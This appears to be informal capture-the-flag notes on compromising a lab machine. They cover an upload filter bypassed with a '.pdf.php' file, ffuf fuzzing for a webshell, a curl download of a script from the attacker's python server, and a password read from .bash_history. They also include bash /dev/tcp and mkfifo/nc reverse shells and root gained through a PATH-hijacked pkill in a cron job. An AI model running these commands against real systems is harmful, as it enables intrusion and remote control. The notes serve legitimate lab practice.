 fuzz- ffuf
php cmd=id(php command execution)
bash rev shell 
python server
curl - download
.bash_history
ssh reverse
bash tcp rev shell

did my all scans found ssh,http
web had upload.php it was to upload files. but it was only coded to get only .pdf files. these files were connected to /cvs dir. 
the code only check ".pdf " in name. we can upload this since it has .pdf in the name ->1.pdf.php

i thought still hacker had his uploaded shell in /cvs so i did fuzz attack using ffuf

[ffuf -u http://ip/cvs/FUZZ.pdf.php -w /usr/share/wordlists/dir/common.txt]

identify the php variable

[ffuf -u http://ip/cvs/shell.pdf.php?FUZZ=id -w common.txt   ]

since this has php command execution vulnerability we can upload a revshell.sh and execute it and take the remote connection.

[bash -i >& /dev/tcp/10.10.10.10/9001 0>&1 ] - saved this as rshell.sh

created a python server in that dir. and goal is to upload it into server.

[pdf.php?cmd=curl http://10.8.0.247:8000/rshell.sh --output rshell.sh]

[bash rshell.sh]

password could find on .bash_history

log in ssh and givin a reverse shell on ssh

[ssh lachlan@10.10.136.86 'bash -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.0.247 9001 >/tmp/f"'] - online rev shell generator- ncmkfifo

check on cron.d/persistence

cat /etc/cron.d/persistence
PATH=/home/lachlan/bin:/bin:/usr/bin
# * * * * * root backup.sh
* * * * * root /bin/sleep 1  && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 11 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done


pkill command not triggering from the path variable. so we can create fake pkill script in username/bin dir and it will triger in every minute.  edit pkill in home/user/bin like this

[bash -c 'bash -i >& /dev/tcp/10.8.0.247/4422 0>&1']

[bash -c 'exec bash -i &>/dev/tcp/10.4.41.28/5555 <&1']



